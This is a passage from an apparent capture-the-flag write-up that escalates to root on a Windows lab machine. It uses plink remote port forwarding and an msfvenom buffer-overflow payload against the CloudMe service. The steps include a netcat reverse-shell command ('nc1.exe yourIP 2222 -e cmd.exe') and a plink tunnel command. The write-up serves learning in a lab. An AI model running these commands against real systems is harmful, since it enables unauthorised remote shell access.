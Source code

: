 
Answers I got were:
- Ssh tunneling/port forwarding is when we can "forward" the data that one port is receiving to another port either on the same or remote machine.
- pPlink can be used as a substitute for ssh when working on windows
- We are going to use remote port forwarding rather than local port forwarding because:
1. The service CloudMe uses is not available to anything other than localhost so we need a way to access it remotely.
2. Since the machine doesn't have python we will forward all the data from the ports our attacking machine to the ports on victim machine that our script produces. That way we can run python without having python. (which is pretty cool if you ask me)

Here is the bunch of steps I had to perform to get the root flag:

- First of all we need to get some binaries onto the machine. Using the previous methods we transfer a plink.exe binary along with another copy of netcat binary renamed as something like nc1.exe (we will use it in future)

- Remember that exploit we downloaded and it has some payload with a msfvenom command above it? Yes that is the payload that we need to send to CLoudMe service. 

<img src="/images/buff/replace.png" />

we will need to change it to the the payload that we want. So to do that we copy the msfvenom command and we the change the CMD flag with the command we want to execute. So replace `CMD=calc.exe` to `CMD='C:\xampp\htdocs\gym\upload\nc1.exe yourIP 2222 -e cmd.exe'` and copy and replace the payload with ours.

- Next is start the ssh service on your system  with `sudo service ssh start`. 
- Now we finally use the final piece of the puzzle i.e plink. We use the command 

`plink.exe -v -x -a -T -C -noagent -ssh -R 8888:127.0.0.1:8888 YourUserName@yourIP`
